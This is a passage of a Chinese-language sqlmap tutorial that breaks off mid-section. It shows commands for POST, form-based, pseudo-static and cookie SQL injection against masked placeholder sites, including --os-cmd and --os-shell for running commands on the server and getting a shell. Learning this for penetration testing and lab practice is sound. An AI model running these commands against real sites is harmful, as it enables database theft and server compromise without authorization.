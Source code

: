 post肯定要post内容，这个内容一般是表单神马的。可以配合burpsuite，也可以自己手工填写，当然，sqlmap之所以叫做神器，那是因为它自己完全可以搞定
target还是http://www.xxxxxxxxxx.com/news.php
post的内容是 username=&password=
可以用sqlmap的随机值，也可以自己随便填下username=admin&password=123
那么sqlmap语句是：

#### 列库

sqlmap.py -u "http://www.xxxxxxxxxx.com/news.php?id=1&data=2" -data="username=admin&password=123" --dbs

后续步骤一样

偷懒不想填post内容可以这样
sqlmap.py -u "http://www.xxxxxxxxxx.com/news.php?id=1&data=2" --forms
sqlmap自动获取表单，问你是否填写神马的，然后填不填都可以



然后用sqlmap虐sqli-labs的话，我记得lessen4和10 要升到level2才可以



### Post注入

注入点：http://xxxxxxxxxx.com/Login.asp



配合Burpsuite：./sqlmap.py -r search-test.txt -p tfUPass

自动获取
sqlmap -u http://xx.xxxx.com/Login.asp --forms
指定参数

sqlmap -u http://xxx.xxxx.com/Login.asp --data "tfUName=1&tfUPass=1"

交互式写shell  需要指定根目录

sqlmap -u http://www.xxx.com/id=2 --os-cmd=ipconfig
执行ipconfig

sqlmap -u http://www.xxxx.com/id=2 --os-shell

获得一个shell即时执行命令，会生成文件 tmpbxbxz.php 和 tmppuoiuz.php





## 3.伪静态注入

注入点：http://www.xxxx.com/ndex.php/Index/view/id/40.html

sqlmap -u http://www.xxxxxxx.com/ndex.php/Index/view/id/40*.html --dbs  //注意*位置，在有注入的地方，后面你懂的



## 4.cookie注入

注入点：http://www.xxxxxxxxxx.org/jsj/DownloadShow.asp?id=9
